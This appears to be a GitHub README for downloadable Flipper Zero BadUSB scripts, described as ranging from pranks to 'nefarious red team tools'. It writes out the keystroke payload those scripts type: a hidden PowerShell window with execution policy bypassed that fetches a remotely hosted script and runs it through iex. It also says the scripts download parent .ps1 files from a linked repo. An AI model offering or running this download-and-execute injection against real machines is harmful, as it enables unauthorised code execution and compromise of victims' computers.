 # Downloadable-Fast-Execution-Scripts-For-FlipperZero

Easy to setup with tutorials for web hooks etc below...

They use this cmd > `STRING powershell -NoP -Ep Bypass -W H -C $variable='USER_INPUT_HERE'; irm HOSTED_SCRIPT_URL_HERE | iex`

These scripts range from harmless pranks to nefarious red team tools. For educational purposes only! 

**If you want to learn more about the code, or modify them, most of these scripts are in powershell format here**

https://github.com/beigeworm/Powershell-Tools-and-Toys

# Pre-Deployment Setup
Most of these scripts will require some setup before they will work.

**THESE SCRIPTS DOWNLOAD AND RUN FROM THIS REPO (Parent .ps1 scripts)-**

https://github.com/beigeworm/assets/tree/main/Scripts
